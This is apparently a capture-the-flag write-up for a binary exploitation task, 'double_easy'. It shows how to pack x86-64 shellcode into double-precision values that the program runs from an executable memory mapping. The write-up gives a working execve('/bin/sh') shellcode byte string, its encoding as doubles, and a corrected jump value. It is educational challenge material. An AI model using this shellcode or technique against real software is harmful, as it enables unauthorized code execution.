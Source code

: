 # double_easy
This is simple but yet in my opinion fun enough task.

![](/images/random_tasks/double_easy/08.png)

At the begging we see mmap is getting called. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 

![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp to address from rax.

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

![](/images/random_tasks/double_easy/07.png)

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.

![](/images/random_tasks/double_easy/04.png)

I used following shellcode:

![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

```
sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280
00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42
BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195
FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186
5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284
```

![](/images/random_tasks/double_easy/06.png)